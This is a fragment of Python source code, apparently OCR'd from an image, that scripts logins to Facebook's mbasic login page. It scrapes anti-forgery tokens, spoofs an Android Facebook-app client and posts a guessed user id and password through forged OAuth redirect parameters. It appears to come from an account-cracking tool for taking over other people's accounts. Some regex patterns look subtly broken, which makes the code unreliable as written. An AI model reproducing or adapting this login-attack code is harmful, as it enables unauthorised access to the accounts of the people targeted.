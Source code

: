 			link= ses.get('https://mbasic.facebook.com/login.php?skip_api_login=1&api_key=145044622175352&kid_directed_site=0&app_id=145044622175352&signed_next=1&next=https%3A%2F%2Fmbasic.facebook.com%2Fv2.0%2Fdialog%2Foauth%3Fclient_id%3D145044622175352%26scope%3Demail%26redirect_uri%3Dhttps%253A%252F%252Fstackauth.com%252Fauth%252Foauth2%252Ffacebook%26state%3D%257B%2522sid%2522%253A1%252C%2522st%2522%253A%252259%253A3%253A1b8%252C16%253A020a7332a3698726%252C10%253A1703476129%252C16%253Aa7054907eb4add70%252C45e6e30e2d9aebb7ab69d033ade766389b518b16944a2c54109180abd75eeb09%2522%252C%2522cid%2522%253A%2522145044622175352%2522%252C%2522k%2522%253A%2522Facebook%2522%252C%2522ses%2522%253A%25228c0c540bf64d4940bd9d49d38170dca9%2522%257D%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Da6999272-8203-4abe-812e-e4585faa136e%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fstackauth.com%2Fauth%2Foauth2%2Ffacebook%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%2522sid%2522%253A1%252C%2522st%2522%253A%252259%253A3%253A1b8%252C16%253A020a7332a3698726%252C10%253A1703476129%252C16%253Aa7054907eb4add70%252C45e6e30e2d9aebb7ab69d033ade766389b518b16944a2c54109180abd75eeb09%2522%252C%2522cid%2522%253A%2522145044622175352%2522%252C%2522k%2522%253A%2522Facebook%2522%252C%2522ses%2522%253A%25228c0c540bf64d4940bd9d49d38170dca9%2522%257D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr')
			data = {"lsd":re.search('name="lsd" value="(.?)"',str(link.text)).group(1),"jazoest":re.search('name="jazoest" value="(.?)"',str(link.text)).group(1),"uid":idf,"next":"https://mbasic.facebook.com/login.php?skip_api_login=1&api_key=312563225523989&kid_directed_site=0&app_id=312563225523989&signed_next=1&next=https%3A%2F%2Fmbasic.facebook.com%2Fv17.0%2Fdialog%2Foauth%3Fapp_id%3D312563225523989%26cbt%3D1694968006466%26channel_url%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df3520793fb24f3c%2526domain%253Dm.shein.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fm.shein.com%25252Ff3d3220ff07f6a8%2526relation%253Dopener%26client_id%3D312563225523989%26display%3Dtouch%26domain%3Dm.shein.com%26e2e%3D%257B%257D%26fallback_redirect_uri%3Dhttps%253A%252F%252Fm.shein.com%252Fid%252Fuser%252Fsetting%26locale%3Den_US%26logger_id%3Df3bbbc53ca261cc%26origin%3D2%26redirect_uri%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df3e1bba7bfb1b54%2526domain%253Dm.shein.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fm.shein.com%25252Ff3d3220ff07f6a8%2526relation%253Dopener%2526frame%253Df1db714302eb3d4%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%26scope%3Demail%26sdk%3Djoey%26version%3Dv17.0%26refsrc%3Ddeprecated%26ret%3Dlogin%26fbapp_pres%3D0%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df3e1bba7bfb1b54%26domain%3Dm.shein.com%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fm.shein.com%252Ff3d3220ff07f6a8%26relation%3Dopener%26frame%3Df1db714302eb3d4%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr","flow":"login_no_pin","pass":pw,}
			cokz = (";").join([ "%s=%s" % (key, value) for key, value in link.cookies.get_dict().items() ])
			cokz+=' m_pixel_ratio=2.625; wd=412x756'
			head={'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '"Not)A;Brand";v="98", "Chromium";v="99"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://mbasic.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.7,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7','x-requested-with': 'com.facebook.katana','sec-fetch-site': 'same-origin','sec-fetch-mode': 'navigate','sec-fetch-dest': 'document','referer': 'https://mbasic.facebook.com/login.php?skip_api_login=1&api_key=312563225523989&kid_directed_site=0&app_id=312563225523989&signed_next=1&next=https%3A%2F%2Fmbasic.facebook.com%2Fv17.0%2Fdialog%2Foauth%3Fapp_id%3D312563225523989%26cbt%3D1694968006466%26channel_url%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df3520793fb24f3c%2526domain%253Dm.shein.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fm.shein.com%25252Ff3d3220ff07f6a8%2526relation%253Dopener%26client_id%3D312563225523989%26display%3Dtouch%26domain%3Dm.shein.com%26e2e%3D%257B%257D%26fallback_redirect_uri%3Dhttps%253A%252F%252Fm.shein.com%252Fid%252Fuser%252Fsetting%26locale%3Den_US%26logger_id%3Df3bbbc53ca261cc%26origin%3D2%26redirect_uri%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df3e1bba7bfb1b54%2526domain%253Dm.shein.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fm.shein.com%25252Ff3d3220ff07f6a8%2526relation%253Dopener%2526frame%253Df1db714302eb3d4%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%26scope%3Demail%26sdk%3Djoey%26version%3Dv17.0%26refsrc%3Ddeprecated%26ret%3Dlogin%26fbapp_pres%3D0%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df3e1bba7bfb1b54%26domain%3Dm.shein.com%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fm.shein.com%252Ff3d3220ff07f6a8%26relation%3Dopener%26frame%3Df1db714302eb3d4%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'ms-MY,ms;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}